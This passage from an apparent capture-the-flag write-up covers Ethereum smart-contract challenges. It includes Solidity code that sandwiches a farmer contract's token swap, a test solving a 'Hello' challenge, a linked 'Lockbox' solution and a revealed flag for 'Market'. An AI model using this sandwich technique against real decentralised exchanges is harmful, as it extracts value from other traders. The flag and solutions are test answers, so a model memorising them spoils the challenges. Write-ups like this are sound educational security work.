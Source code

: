 ```solidity

  ROUTER.swapExactTokensForTokens(
      bal,
      0,
      path,
      address(this),
      block.timestamp
  );

  farmer.claim();
  farmer.recycle();

  require(setup.isSolved(), "!solved");
}
```

> Sandwiching the Comp -> WETH trade would be more "profitable" for us because its Uniswap pair has less liquidity. (It might be that it's still not profitable for us because of the Uniswap fees we need to pay twice). To win it's enough if the farmer trades at a higher price.

## Hello

This is a challenge to get used to the CTF workflow.
It's enough to call the `hello` action on the `Hello` contract deployed by the `Setup` contract.

```typescript
it("solves the challenge", async function () {
  const helloAddr = await setup.hello();
  const hello = await ethers.getContractAt(`Hello`, helloAddr, eoa);
  tx = await hello.solve();
  await tx.wait();

  const solved = await setup.isSolved();
  expect(solved).to.be.true;
});
```

## Lockbox

> Isn't ABI encoding fun?

Solution by [Rohit Narurkar](https://twitter.com/rohitnarurkar):

[https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198](https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198)


## Market

> Smarter Contracts Inc. has been hard at work developing the ultimate crypto collectible experience. We're proud to announce our new CryptoCollectibles contract and integrated marketplace.
>
> Flag: `PCTF{CRyPt0_Nam3_53rv1c3}`
